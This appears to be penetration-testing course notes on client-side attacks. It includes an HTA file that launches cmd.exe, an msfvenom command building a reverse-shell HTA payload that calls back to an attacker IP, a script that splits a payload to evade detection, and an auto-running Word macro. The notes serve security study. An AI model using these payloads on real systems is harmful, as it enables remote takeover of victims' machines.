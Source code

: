 # Module 13 (Clint Side Attacks)

<figure><img src="../../.gitbook/assets/image (149).png" alt=""><figcaption></figcaption></figure>

### Know Your Target (Enum)

* **Passive Enumeration:**
  * Identify the victim's browser.
* **Active Enumeration:**
  * **Social Engineering:**
    * Craft messages or scenarios to manipulate users into revealing sensitive information or performing actions.

### Leveraging HTML Apps <a href="#leveraging-html-apps" id="leveraging-html-apps"></a>

* **Tool:** [**fingerprintjs2**](https://github.com/LukasDrgon/fingerprintjs2)
  * A JavaScript library to uniquely identify a browser based on its features.
* **HTA Attack:**
  * Create an HTA (HTML Application) to execute malicious scripts.
    *   Example HTA file (`file.hta`):



        ```html
        <!DOCTYPE html>
        <html>
        <head>
            <script>
            var x='cmd.exe'
            new ActiveXObject('WScript.shell').Run(x);
            </script>
        </head>
        <body>
            <script> self.close() </script> 
        </body>
        </html>
        ```
    *   Copy the HTA file to a web server:



        ```sh
        sudo cp file.hta /var/www/html/file2.hta
        ```
    *   Generate an HTA payload with msfvenom:



        ```bash
        sudo msfvenom -p windows/shell_reverse_tcp LHOST=192.168.114.134 LPORT=4444 -f hta-psh -o /var/www/html/evil.hta
        ```

<figure><img src="../../.gitbook/assets/image (150).png" alt=""><figcaption></figcaption></figure>

### Exploiting Microsoft Office <a href="#exploiting-microsoft-office" id="exploiting-microsoft-office"></a>

* **Word Macro:**
  *   Split the payload to evade detection.



      ```
      str="" # payload from msfvenom
      n=50
      for i in range(0,len(str),n):
          print "str = Str +" + '"' + str[i:i+n] + '"'
      ```
  *   Add the split payload to a Word Macro (`document.docm`).

      Copy

      ```
      Sub AutoOpen()
          test1
      End Sub

      Sub Doc_Open()
          test1
      End Sub

      Sub test1()
          Dim Str As String
          ' Add the splitted payload here
          CreateObject("Wscript.shell").Run Str
      End Sub
      ```
* **Object Linking and Embedding (OLE):**
  * Create an evil batch file (`evil.bat`).
  * Create a link object in the Word document (`document.docm`).

**Resources:**

* [fingerprintjs2 GitHub Repository](https://github.com/LukasDrgon/fingerprintjs2)
* [Metasploit Framework (msfvenom)](https://www.metasploitunleashed.com/msfvenom/)
* [Microsoft VBA Programming](https://docs.microsoft.com/en-us/office/vba/api/overview/)

